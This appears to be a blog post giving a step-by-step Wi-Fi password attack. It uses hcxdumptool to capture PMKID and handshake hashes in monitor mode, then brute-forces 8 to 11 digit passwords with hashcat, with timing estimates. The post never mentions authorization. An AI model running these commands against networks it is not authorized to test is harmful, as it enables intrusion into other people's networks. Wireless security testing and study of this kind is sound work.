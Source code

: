 +++
title = "Simple WiFi pentest"
date = "2023-11-16T20:36:04+04:00"
author = "gals"
authorTwitter = "" #do not include @
cover = ""
tags = ["wifi", "kali", "gentoo", "orange pi5"]
keywords = ["wifi", "kali", "gentoo", "orange pi5"]
description = "Simple WiFi pentest"
showFullContent = false
readingTime = true
hideComments = true
color = "" #color from the theme settings
+++

# Simple WiFi pentest

## Hardware
1. Orange Pi 5 + TP-Link Archer T2U PLUS [RTL8821AU] with [Kali Linux](https://github.com/leeboby/kali-images). Don't forget to do `rm /boot/*cloud-arm64* && /usr/sbin/u-boot-update`  after `apt update && apt upgrade` otherwise you can't boot after reboot
2. Gentoo with GeForce RTX 3070 Lite Hash Rate

## Orange PI 5

### Prepare

```bash
apt update
apt install tshark hcxdumptool hcxtools iw
```

### Run

```bash
# Setup monitor mode
ip link set wlan0 down && iw wlan0 set monitor none && ip link set wlan0 up
# Run tool for hcxdumptool 6.3.1 (C) 2023 ZeroBeat
hcxdumptool -i wlan0 -w wlan0.pcapng
# wait
```

After or during waiting
```bash
# Dump to hc22000 file format, watch into 'PMKID (best)'
hcxpcapngtool -o wlan0.hc22000 wlan0.pcapng
# Get info from wlan0.hc22000
hcxhashtool -i wlan0.hc22000 --info=stdout
```

## Gentoo

### Prepare

```bash
eselect repository enable pentoo
eix-sync
eix-update
emerge hcxtools
```

### Try to find something interesting

Simle ans stupid brute force, all digest from 000000000 (minimal wifi password length) to 999999999999 (like mobile phone number)

```shell
hashcat -m 22000 wlan0.hc22000 -a3 --increment -w3 \
  --increment-max 11 \
  --increment-min 8 \
  '?d?d?d?d?d?d?d?d?d?d?d'
# press s to check status
# run any time if you want get current status with the found
hashcat -m 22000 wlan0.hc22000 --show
```

**Timings:**
- 8 digits ~ 18 minutes
- 9 digits ~ 3 hours
- 10 digits ~ 1 day, 5 hours
- 11 digist ~ 12 days, 9 hours
